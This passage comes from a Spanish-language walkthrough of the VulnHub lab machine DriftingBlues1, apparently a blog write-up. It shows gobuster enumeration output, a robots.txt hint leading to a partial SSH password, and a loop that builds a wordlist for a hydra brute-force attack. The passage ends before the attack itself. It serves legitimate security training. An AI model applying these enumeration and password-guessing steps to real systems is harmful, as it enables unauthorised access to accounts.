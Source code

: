 ```bash
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://test.driftingblues.box/.html                (Status: 403) [Size: 287]
http://test.driftingblues.box/.htaccess            (Status: 403) [Size: 287]
http://test.driftingblues.box/.htpasswd            (Status: 403) [Size: 287]
http://test.driftingblues.box/index.html           (Status: 200) [Size: 24]
http://test.driftingblues.box/robots.txt           (Status: 200) [Size: 125]
```

Encontramos un archivo robots.txt, revisamos las entradas que tiene y nos brinda la ruta `/ssh_cred.txt`.

![robots](/assets/img/commons/vulnhub/DriftingBlues1/robots.png){: .normal }

![ssh_cred](/assets/img/commons/vulnhub/DriftingBlues1/ssh_cred.png){: .normal }


Ya tenemos parte de la contraseña de usuario, resta agregarle un número al final y luego ejecutar `hydra` para realizar fuerza bruta.


## Explotación

---

Creamos un diccionario.

```bash
❯ for i in {0..9}; do echo "1mw4ckyyucky$i" >> dic.txt; done
❯ cat dic.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: dic.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 1mw4ckyyucky0
   2   │ 1mw4ckyyucky1
   3   │ 1mw4ckyyucky2
   4   │ 1mw4ckyyucky3
   5   │ 1mw4ckyyucky4
   6   │ 1mw4ckyyucky5
   7   │ 1mw4ckyyucky6
   8   │ 1mw4ckyyucky7
   9   │ 1mw4ckyyucky8
  10   │ 1mw4ckyyucky9
```
